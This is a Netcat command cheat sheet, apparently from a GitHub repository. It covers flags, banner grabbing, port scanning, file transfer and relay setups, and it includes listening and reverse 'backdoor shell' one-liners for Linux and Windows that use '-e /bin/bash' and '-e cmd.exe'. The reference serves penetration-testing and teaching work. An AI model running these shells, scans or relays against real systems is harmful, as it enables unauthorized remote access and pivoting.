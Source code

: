 # Netcat

> ## **Fundamentals**

Both the client and listener take input from STDIN and send data received from the network to STDOUT

` Fundamental Netcat Client` 

Connect to an arbitrary port [port] at IP Address [TargetIPaddr]

    $ nc [TargetIPaddr] [port]

`Fundamental Netcat Listener`

Create a Netcat listener on arbitrary local port [LocalPort]

    $ nc –l -p [LocalPort]

------

> ## **Command Flags**

    $ nc [options] [TargetIPaddr] [port(s)]

The [TargetIPaddr] is simply the other side’s IP address or domain name. It is required in client mode of course (because we have to tell the client where to connect), and is optional in listen mode.

| **Option** | **Description** |
|------------|-----------------|
|`-l`| Listen mode (default is client mode) |
| `-L` | Listen harder (supported only on Windows version of Netcat). This option makes Netcat a persistent listener which starts listening again after a client disconnects |
| `-u` | UDP mode (default is TCP) |
| `-p` | Local port (In listen mode, this is port listened on. In client mode, this is source port for all packets sent) |
| `-e` | Program to execute after connection occurs, connecting STDIN and STDOUT to the program |
| `-n` | Don’t perform DNS lookups on names of machines on the other side |
| `-z` | Zero-I/O mode (Don’t send any data, just emit a packet without payload) |
| `-wN` | Timeout for connects, waits for N seconds after closure of STDIN. A Netcat client or listener with this option will wait for N seconds to make a connection. If the connection doesn’t happen in that time, Netcat stops running. |
| `-v` | Be verbose, printing out messages on Standard Error, such as when a connection occurs |
| `-vv` | Be very verbose, printing even more details on Standard Error |

------

> ## **TCP Banner Grab**

`Grab the banner of any TCP service running on an IP Address from Linux:`

    $ echo "" | nc –v –n –w1 [TargetIPaddr] [start_port]-[end_port]

Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address [TargetIPaddr] running verbosely (-v), not resolving names (-n), and waiting no more than 1 second for a connection to occur (-w1). Then send a blank string to the open port and print out any
banner received in response Add –r to randomize destination ports within the range.


Add –p [port] to specify a source port for the

------

> ## **TCP Port Scanner**

`Port scan an IP Address:`

    $ nc –v –n –z –w1 [TargetIPaddr] [start_port]-[end_port]

Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address [TargetIPaddr] running verbosely (-v on Linux, -
vv on Windows), not resolving names (-n), without sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1)
The randomize ports (-r) switch can be used to choose port numbers randomly in the range.

------

> ## **Backdoor Shells**

`Listening backdoor shell on Linux:`

     $ nc –l –p [LocalPort] –e /bin/bash

`Listening backdoor shell on Windows:`

    C:\> nc –l –p [LocalPort] –e cmd.exe

` Create a shell on local port [LocalPort] that can then be accessed using a fundamental Netcat client Reverse backdoor shell on Linux:`

    $ nc [YourIPaddr] [port] –e /bin/bash

`Reverse backdoor shell on Windows:`

Create a reverse shell that will attempt to connect to [YourIPaddr] on local port [port]. This shell can then be captured using a fundamental nc listener.

    C:\> nc [YourIPaddr] [port] –e cmd.exe

-------

> ## **File Transfer**

`Push a file from client to listener`

Listen on [LocalPort], store results in [outfile]:

     $ nc –l -p [LocalPort] > [outfile]

Push [infile] to [TargetIPaddr] on [port]:

    $ nc –w3 [TargetIPaddr] [port] < [infile]

`Pull file from listener back to client`

Listen on [LocalPort], prep to push [infile]:

    $ nc –l -p [LocalPort] < [infile]

Connect to [TargetIPaddr] on [port] and retrieve [outfile]
    
    $ nc –w3 [TargetIPaddr] [port] > [outfile]

------

> ## **Windows Relays**

`Temporary Folder`

To start, enter a temporary directory where we will create .bat files:

    C:\> cd c:\temp

`Listener-to-Client Relay`

Create a relay that sends packets from the local port [LocalPort] to a Netcat Client connected to [TargetIPaddr] on port [port]:

    C:\> echo nc [TargetIPaddr] [port] > relay.bat
    C:\> nc –l –p [LocalPort] –e relay.bat

`Listener-to-Listener Relay`

Create a relay that will send packets from any connection on [LocalPort_1] to any connection on [LocalPort_2]:

    C:\> echo nc –l –p [LocalPort_2] > relay.bat
    C:\> nc –l –p [LocalPort_1] –e relay.bat

`Client-to-Client Relay`

Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2]:

    C:\> echo nc [NextHopIPaddr] [port2] > relay.bat
    C:\> nc [PreviousHopIPaddr] [port] –e relay.bat

------

> ## **Linux Relays**

` To start, create a FIFO (named pipe) called backpipe:`

    $ cd /tmp
    $ mknod backpipe p

` Listener-to-Client Relay:`

Create a relay that sends packets from the local port [LocalPort] to a Netcat client connected to [TargetIPaddr] on port [port]

     $ nc –l –p [LocalPort] 0<backpipe | nc [TargetIPaddr] [port] | tee backpipe

`Listener-to-Listener Relay:` 

Create a relay that sends packets from any connection on [LocalPort_1] to any connection on [LocalPort_2]

    $ nc –l –p [LocalPort_1] 0<backpipe | nc –l –p [LocalPort_2] | tee backpipe

`Client-to-Client Relay:`

Create a relay that sends packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat client connected to [NextHopIPaddr] on port [port2]

     $ nc [PreviousHopIPaddr] [port] 0<backpipe | nc [NextHopIPaddr] [port2] | tee backpipe

